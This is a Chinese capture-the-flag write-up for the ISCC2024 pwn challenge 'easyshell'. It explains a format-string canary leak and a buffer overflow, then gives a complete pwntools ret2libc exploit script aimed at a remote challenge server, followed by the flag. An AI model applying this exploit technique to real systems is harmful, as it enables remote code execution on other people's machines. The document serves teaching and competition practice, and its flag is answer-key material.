




# ISCC2024 WriteUp

GX-rainbow + 杨智林 + 3436865331@qq.com

# 练武题PWN——ISCC_easyshell分析

checksec一下



查看IDA，进行反编译，分别查看welcome和back



可以看到有一个格式化字符串漏洞



back也有一个溢出



找了一遍发现没有可利用的后门函数，基本可以判断这是一道ret2libc，先泄露canary，再利用puts函数泄露libc版本，最后进行ret2libc

在https://libc.blukat.me/libc查到libc版本`libc6-i386_2.31-0ubuntu9.15_amd64`

# exp

```python
from pwn import *
io = remote('182.92.237.102',10012)
elf = ELF('./attachment-12')
back = 0x804931B
io.recvuntil(b'\n')
io.sendline(b'%19$p')
io.recvuntil(b'\n')
canary = int(io.recv(10),16)
#print(hex(canary))
payload1 = b'a' * 0x88
payload1 += p32(canary)  + p32(0) * 3
payload1 += p32(elf.plt['puts']) + p32(back) + p32(elf.got['puts'])
io.sendlineafter(b'ut:\n',payload1)
libc = u32(io.recv(4)) - 0x06d1e0
#print(hex(libc))
payload2 = b'a' * 0x88
payload2 += p32(canary)  + p32(0) * 3
payload2 += p32(libc + 0x041360) + p32(back) + p32(libc + 0x18c363)
io.sendlineafter(b'ut:\n',payload2)
io.interactive()
```

# flag

```
ISCC{bE8TUNd4ULgedpFUv4PLGoC5GcXob1Des8el}
```

